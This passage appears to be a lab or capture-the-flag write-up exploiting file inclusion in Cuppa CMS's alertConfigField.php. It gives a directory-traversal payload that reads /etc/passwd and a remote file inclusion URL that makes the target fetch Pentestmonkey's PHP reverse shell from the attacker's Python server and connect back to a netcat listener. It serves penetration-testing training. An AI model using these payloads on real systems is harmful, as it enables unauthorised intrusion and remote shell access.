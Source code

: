 In essence, this exploit targets the **alertConfigField.php** file within the Cuppa CMS service. More specifically, it targets the **urlConfig** parameter. Through this parameter, we can input a path that traverses directories to access other files on the machine, such as /etc/passwd. This is known as a **local file inclusion attack**. However, we can also input a path to a file on a web server that we, the attacker, are hosting. This will cause our target machine to download and execute that file, allowing us to do things such as open up a reverse shell! This is known as a **remote file inclusion attack**. We will be using such an attack to open up a reverse shell and gain access.

Before we do that, let's just try to read the **/etc/passwd** file on our target machine, so as to verify that the inclusion attacks even work.

<br>

**Payload:**

 http://10.10.181.238/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

**Results:**

<img style="float: left;" src="screenshots/screenshot24.png">

Great! :smile: Looks like we can indeed execute inclusion attacks on this machine. Now, we will move on to carrying out the remote file inclusion attack.

We'll be using the **php reverse shell** created by **Pentestmonkey**: https://github.com/pentestmonkey/php-reverse-shell.

Next, we host a simple HTTP server using Python. The command to do so is:

```
python3 -m http.server
```

Of course, we need to set up a **netcat listener** so that it can catch the reverse shell when it is opened. With the server up and running, we just have to provide the following path to the target web server:

http://10.10.181.238/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://x.x.x.x:8000/php-reverse-shell.php

**x.x.x.x** is the tun0 ip address of my local machine and the Python HTTP server is being run on port **8000**. Once we visit this URL, we can see that the reverse shell has been successfully opened:

<img style="float: left;" src="screenshots/screenshot25.png">
